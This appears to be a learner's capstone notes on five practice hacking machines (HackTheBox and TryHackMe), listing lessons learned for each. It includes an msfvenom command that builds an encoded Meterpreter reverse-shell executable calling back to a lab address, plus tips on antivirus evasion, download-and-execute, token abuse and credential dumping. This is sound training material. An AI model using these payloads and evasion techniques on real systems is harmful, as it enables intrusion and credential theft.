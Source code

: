 # Capstone Challenge

### Capstone Overview

Attempt in 24 - 48hrs

5 machines (easiest to hardest):

### Arctic (HTB) - Done

Lessons learned:

- Metasploit's web_delivery module is a powerful tool for limited RCE situations  
- When you see an older system (Windows 7, Windows Swerver 2008), look at kernel exploits first  
- Not relevant to the machine, but Impacket's rpcdump is great for RPC enumeration  

### Bastard (HTB) - Done

Lessons learned:

- Remember to use 443 for reverse shells  
- Work your way through available exploits, if one doesn't work for you try an alternative  
- powershell download & execute commands are a powerful way to execute scripts from the attacking machine  
- Sherlock.ps1 is very useful  
- [Basic PowerShell for pentesters](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)  

### Alfred (THM) - Done

Lessons learned:

- Try default credentials first (admin:admin, admin:password, etc)  
- Nishang is a great resource https://github.com/samratashok/nishang  
- If you see SeDebugPrivilege and SeImpersonatePrivilege think token abuse (meterpreter incognito)  
- If you can't drop into a shell or access a file or directory after token impersonation, try migrating to a 
diferent process  
- Use payload encoding to bypass AV  

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=443 -f exe -o shell.exe`

### Bastion (HTB) - Done

Lessons learned:  

- Enumeration is key! Work through <u>all of the steps</u> in your enumeration process  
- Check Program Files/Program Files (x86) for applications that stand out  
- Impacket's secretsdump.py script is great when you find registry files  
- Mount SMB shares for easy access when dealing with large files  
- Use guestmount to mount .vhd files and find juicy data ([Article link](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25))  

`sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd`

### Querier (HTB) - Done

Lessons learned:

- When connecting to a service with found credentials try multiple tools and read the help (-windows-auth!)  
- Run multiple vulnerability enumeration tools  
- When uploading files try all options if one fails, e.g certutil, Invoke-WebRequest, python ftp server  
- Cached GPP files can contain passwords  

